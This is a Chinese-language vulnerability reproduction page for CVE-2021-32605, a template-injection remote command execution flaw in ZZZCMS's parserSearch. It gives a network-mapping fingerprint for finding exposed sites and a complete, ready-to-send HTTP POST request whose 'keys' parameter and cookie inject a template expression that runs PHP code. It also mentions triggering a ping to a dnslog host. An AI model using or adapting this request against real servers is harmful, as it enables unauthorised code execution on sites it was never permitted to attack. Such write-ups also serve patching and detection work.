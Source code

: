 # ZZZCMS parserSearch 远程命令执行漏洞

# ZZZCMS parserSearch 远程命令执行漏洞

## 漏洞描述

ZZZCMS parserSearch 存在模板注入导致远程命令执行漏洞

参考链接：

- https://srcincite.io/advisories/src-2021-0015/
- https://nvd.nist.gov/vuln/detail/CVE-2021-32605

## 漏洞影响 

```
ZZZCMS
```

## 网络测绘

```
app="zzzcms"
```

## 漏洞复现

发送如下请求包命令执行

![](/images/202202170904549.png)

```plain
POST /?location=search HTTP/1.1
Host: 
Content-Length: 30
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36
Content-Type: text/plain
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: PHPSESSID=rbuhrqqhoctntnak8slkascqp1; keys=%7Bif%3A%3DPHPINFO%28%29%7D%7Bend+if%7D%0D%0A


keys={if:=PHPINFO()}{end if}
```

执行 ping dnslog

![](/images/202202170904912.png)

